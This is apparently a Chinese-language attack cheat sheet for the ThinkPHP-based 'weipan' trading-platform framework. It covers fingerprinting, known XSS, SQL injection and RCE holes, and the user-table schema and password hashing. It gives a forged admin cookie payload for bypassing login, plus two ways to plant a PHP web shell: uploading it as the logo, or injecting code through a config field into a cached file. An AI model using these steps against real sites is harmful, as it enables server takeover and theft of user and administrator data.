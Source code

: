 # weipan

---

微盘框架特征：

```
网站标题的图标默认是绿色的微字（也可以在浏览器历史记录中查看）
用户在前端登陆后访问的是伪静态页面，如good/pid/2/token/xxxxxxx.html
登陆页面：/passport/login/index/?lang=zh-cn
	     /index/login/login/token/xxxxxxxx.html
```

RCE：

```
1.用户注册填信息的地方存在xss
2.商品行情页面good/pid/2 存在sql注入
3.以thinkphp框架二次开发的框架，存在thinkphp的RCE
4.thinkphp的日志泄露，搜索error可能找到sql注入的地方
5.其他漏洞：https://www.cnblogs.com/-qing-/p/10693139.html
```

基本信息

```
表名：
|-wp_userinfo  #用户表，管理员和用户信息存放的表
|--username用户名
|--upwd 密码md5
|--utime 注册时间戳，默认upwd是密码+utime的md5（具体需要看后台登陆页面是怎么校验登陆的）
|--otype 3为管理员，4为平台用户
|-wp_whitelist  # 可以设置白名单IP访问后台
设置域名白名单访问：一般可以通过不用域名访问目标站点，但是只能通过一个域名访问目标站点后台
/Application/Common/Conf/site.php
'siteurl' => 'xxx1.com',
'siteurlreg' => 'https://xxx1.com',  #  
'siteurladm' => 'admin.xxx1.com',  # 能访问后台的白名单域名
'appdownurl' => 'https://xxx2.com',  # app下载页面

```

后台登陆绕过登陆

- 教程：https://www.freebuf.com/articles/web/254396.html

- 将cookie中denglu参数改成（otype是权限，token是验证）

```
denglu=think:{"otype":"3","userid":"","username":"","token":"3c341b110c44ad9e7da4160e4f865b63"}
```

后台get5he11 -1

- 教程：https://www.freebuf.com/articles/web/254396.html

```
/参数设置/基本设置/LOGO/选择文件/传php文件
通过源代码查看logo处可以看到路径，一般在public/uploads/20210101/md5.php（上传日期/文件md5）
```

后台get5he11 -2

- 教程：https://forum.90sec.com/t/topic/988

```
/参数设置/添加配置/依次输入test、test、test、文本、参数配置
/参数设置/参数设置/在test拦中输入 ：
---
 "
phpinfo();//
---
访问前端页面进行缓存刷新后直接访问：（固定路径文件）
/runtime/cache/3a/8e4c06e471595f6eb262bb9b5582d9.php

PS：如果没有参数设置，可能只是删除了导航，没有删除实际功能
可以直接访问/后台路径/setup/addsetup.html  添加配置
/admin/setup/deploy.html   # 删除参数
```

